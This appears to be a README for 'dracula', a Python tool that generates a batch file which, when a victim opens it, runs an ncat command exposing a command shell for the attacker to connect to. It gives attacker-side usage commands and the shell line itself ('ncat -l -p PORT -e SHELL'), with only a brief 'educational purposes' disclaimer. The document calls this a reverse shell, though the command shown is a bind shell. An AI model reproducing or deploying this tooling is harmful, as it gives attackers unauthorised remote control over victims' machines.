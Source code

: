 **THIS IS ONLY FOR EDUCATIONAL PURPOSES, DO NOT USE THIS FOR ANY ILLEGAL ACTIVITIES**

```
        _____                       _       
        |  __ \                     | |      
        | |  | |_ __ __ _  ___ _   _| | __ _ 
        | |  | | '__/ _` |/ __| | | | |/ _` |
        | |__| | | | (_| | (__| |_| | | (_| |
        |_____/|_|  \__,_|\___|\__,_|_|\__,_|

```

dracula is a reverse shell generator built around the cmd used for ncat reverse shell

# How it Works
uses ncat command to give reverse shell access to the attacker once the client opens the batch file.

# How to Use
1. Install nmap (on linux systems)

        sudo apt install nmap 

2. Run the dracula.py file and enter the required info
3. A batch file is generated 

### **Attacker's Side**
Generate payload:

```
Dracula >> -p <TARGET_PORT> -s <SHELL_TYPE> -o <OUTPUT_FILE_NAME>
```

Command to connect to the target machine:

```
Dracula >> -l -i <TARGET_IP> -p <TARGET_PORT>
```
replace the TARGET_IP with ip addr of client and TARGET_PORT with port used in the attack

**NOTE: the port used in above command must be same as the the one used in payload.**

### **Client's Side**
Once the client opens the batch file, following command is executed
```
ncat -l -p PORT -e SHELL 
```
